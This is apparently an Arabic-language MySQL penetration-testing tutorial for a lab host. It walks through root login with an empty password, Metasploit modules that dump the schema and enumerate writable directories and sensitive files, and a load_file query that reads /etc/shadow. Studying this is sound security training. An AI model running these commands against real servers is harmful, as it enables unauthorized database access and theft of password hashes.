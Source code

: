 ف الان كيف نتصل بقاعدة البيانات؟
[mysql -h 192.168.179.3 -u root]

طبعا هنا نستخدم لغة sql عشان نتعامل مع القاعدة ف عندنا بعض الاوامر 
[show databases;] هذا عشان يعرض لنا كل قاعدة البيانات الي بنستخدمها
[use books;] هنا عشان نحدد القاعدة الي نبي نسوي عليها الكويري
[select count(*) from authors;] هنا خليناه يحسب لنا عدد الصفوف من التيبل الي اسمه autors

كذالك عندنا موديول في الـ MSFconsole
وظيفة الموديول هذا انه يحمل لك الداتا بيس او السكيما بشكل اصح
[msfconsole] عشان نفتح الفريم وورك
والان نحدد الموديول
[use auxiliary/scanner/mysql/mysql_schemadump]
ونشوف ايش المتغيرات المطلوبه عن طريق الامر هذا
[show options]
نلاحظ انه طالب مننا RHOST USERNAME PASSWORD
راح نعطيه القيم لهذي المتغيرات
[set RHOSTS 192.168.179.3]
[set USERNAME root]
[set PASSWORD ""]
ونشوف انه طلع لنا كامل الداتا بيس
ايش اسم الداتا بيس الموجوده ايش الكولوم الموجوده داخله الداتا بيس 

طبعا فيه موديول اخر وظيفته يعطيك هل صلاحية الكتابه عندك او لا على المسار الي تحدده تشوف هل عندك صلاحية الكتابه او لا وتقدر تحدد اسم الفايل الي تبيه يكتب فيه لو كان عندك هذي الصلاحية
[msfconsole] عشان نفتح الفريم وورك
والان نحدد الموديول
[use auxiliary/scanner/mysql/mysql_writable_dirs]
ونشوف ايش المتغيرات المطلوبه عن طريق الامر هذا
[show options]
نلاحظ طالب مننا DIR_LIST RHOST PASSWORD
نعطيه القيم لهذي المتغيرات
[set DIR_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt]
[set RHOSTS 192.168.179.3]
[set VERBOSE false]طبعا هذا فقط عشان مايعرض لنا التفاصيل ويكون زحمه
[set PASSWORD ""]
[exploit] or [run]

طبعا فيه موديول ثاني بعد يطلع لك الملفات الحساسه مثل /etc/passwd , /etc/shadow etc..
[msfconsole] عشان نفتح الفريم وورك
والان نحدد الموديول
[use auxiliary/scanner/mysql/mysql_file_enum]
ونشوف ايش المتغيرات المطلوبه عن طريق الامر هذا
[show options]
نلاحظ طالب مننا RHOST , FILE_LIST
نعطيه القيم لهذي المتغيرات
[set FILE_LIST /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt] طبعا لابد تحط الليسته بناء على نظام التشغيل الي تتعامل معه
[set RHOST 192.168.179.3]
[set PASSWORD ""]
[exploit] or [run]

فعطانا كل الملفات الي عندنا عليها صلاحية كتابه
طبعا كيف نقرا الملف عن طريق mysql?
اول شي نسجل دخول
[mysql -h 192.168.179.3 -u root]
بعدها نسوي هذا الامر عشان نقرا الملف
[select load_file("/etc/shadow");]
